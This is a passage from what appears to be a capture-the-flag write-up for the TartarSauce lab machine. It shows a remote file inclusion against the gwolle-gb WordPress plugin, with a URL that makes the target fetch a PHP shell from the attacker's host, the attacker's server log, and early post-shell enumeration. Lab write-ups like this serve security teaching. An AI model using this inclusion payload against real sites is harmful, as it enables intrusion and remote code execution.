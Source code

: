 Now visit the URL:

```bash
http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.7/shell.php
```

From our python server:

```bash
10.10.10.88 - - [10/Sep/2025 10:24:01] "GET /shell.phpwp-load.php HTTP/1.0" 404 -

```

Seems like it appends wp-load.php. Let’s change change our exploit name to wp-load.php and get it to request to /

```bash
http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.7/
```

We now have shell:

![image.png]({{ site.baseurl }}/assets/tartarsauce/image%209.png)

Let’s start enumerating. We are user www-data. Let’s check open ports:

```bash
ss -lntp

State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN     0      80     127.0.0.1:3306                     *:*                  
LISTEN     0      128          *:80                       *:* 
```

Let’s check if their are any subdomains:

```bash
ls /etc/apache2/sites-available

000-default.conf  default-ssl.conf

cat 000-default.conf
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
```